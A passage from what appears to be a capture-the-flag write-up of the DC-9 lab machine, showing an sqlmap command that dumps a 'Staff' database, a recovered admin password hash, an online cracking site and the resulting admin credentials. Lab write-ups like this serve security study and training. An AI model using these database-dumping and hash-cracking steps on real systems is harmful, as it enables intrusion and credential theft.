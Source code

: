Then I ran

```bash
➜ sqlmap -r /home/mzfr/sql.txt -D Staff --dump
```

![](images/dc9/hash.png)

`a9cb430b8b1d44c3476234ef3f779442:admin`

We can crack the hash using [hashkiller](https://hashkiller.co.uk/Cracker).

![](images/dc9/cracked.png)

so now we have admin credentials `admin:truck`(`transorbital1`) I was able to login using those but there wasn't much we could do after login because the only new thing that admin could do was `add records`.
